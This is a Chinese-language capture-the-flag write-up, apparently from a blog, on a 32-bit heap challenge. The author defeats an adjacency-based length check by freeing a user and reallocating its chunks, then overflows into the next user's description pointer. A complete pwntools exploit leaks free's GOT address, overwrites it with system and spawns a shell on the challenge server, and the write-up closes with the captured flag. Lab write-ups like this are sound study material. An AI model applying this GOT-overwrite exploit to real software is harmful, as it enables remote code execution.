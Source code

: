 param_1是更新的用户的索引，local_14是要更新的desc长度。其实我没办法跟大佬们一样清晰看出这行的逻辑“(Desc堆地址+数据长度length)不能大于等于(Note地址- 4)”，我只能看出来某个地址-4不能小于等于某个地址加上local_14。唉还是要多做题啊。

但是能猜到的是，虽然(&DAT_0804b080 + (uint)param_1 * 4)这段在两处都有出现且完全一致，但它们肯定不能指代一个地址，不然这个判断纯粹就是来搞笑的。不是一个地址却还能通过-4这样来判断，两者只能相邻。根据AddUser函数得到的信息，一个用户正好有两部分，固定的0x80和desc部分。desc可以看出来是个指针，故一旦被控制就可以随意改写地址。

无解的防御在两者相邻时无解，假如我们能让两者不相邻呢？堆管理器分配chunk的时候，如果有现成的chunk就不会重新从top chunk切一块下来了。我先放exp吧，放出来才好剖析。

```python
from pwn import *
p = remote("61.147.171.105",57973)
def Add(size,length,text):
	p.sendlineafter("Action: ",'0')
	p.sendlineafter("description: ",str(size))
	p.sendlineafter("name: ",'ffff')
	p.sendlineafter("length: ",str(length))
	p.sendlineafter("text: ",text)
def Del(index):
	p.sendlineafter("Action: ",'1')
	p.sendlineafter("index: ",str(index))
def Display(index):
	p.sendlineafter("Action: ",'2')
	p.sendlineafter("index: ",str(index))
def Update(index,length,text):
	p.sendlineafter("Action: ",'3')
	p.sendlineafter("index: ",str(index))
	p.sendlineafter("length: ",str(length))
	p.sendlineafter("text: ",text)
Add(0x80,0x80,"a") 
Add(0x80,0x80,"a")
Add(0x8,0x8,"/bin/sh\x00")
Del(0)
free_got=134524944
payload =b'a'*0x198+p32(free_got)
Add(0x108,0x19C,payload)
Display(1)
p.recvuntil("description: ")
free_addr = u32(p.recv(4))
system_offset=-0x35e10
Update(1,4,p32(free_addr+system_offset)) 
Del(2)
p.interactive()
```

首先Add三个用户，第一个用来释放，第二个用来当被溢出的chunk，第三个提前把要用的/bin/sh放好。Del释放掉索引0处的user，由于我们设置desc长度为0x80，释放时结构体固定的0x80和desc的0x80就会合并（unlink）。接下来我们再添加一个用户，desc大小为0x108。0x108是因为堆头也有8个字节，0x80+0x80=0x100，再加0x8=0x108，这才保证了大小的完全一致。0x19c的内容可以完美溢出到下一个用户并改写第二个用户的desc指针为free。至于为什么是0x19c，desc的0x108+用户2的结构体堆头0x8+用户2的结构体0x80+用户2的desc堆头0x8,这样是0x198，正好到达用户2desc的起点。再来8个字节写free地址，故再+4（32位），0x198+0x4=0x19c。

现在结构体和desc就没有挨在一起了，防御便失效了。打印用户2的信息便可以得到free的真实地址。update更改free的got表为system地址，完成got表改写。最后删除提前预留好/bin/sh的用户即getshell。

时隔两月再次遇见这道题，还是没做出来。笑死，继续补充一点细节。不难发现Add函数要求输入两个大小，这是因为程序的Add函内部写desc用了Update函数，而Update函数内部又要求输入大小。Add内部询问的大小是malloc的堆的大小，Update是填充字节时的大小，这也是为啥`Add(0x108,0x19C,payload)`的两个大小不一样。

- ### Flag
  > cyberpeace{b7a2cb035785cc1ded8e18ecf25809dd}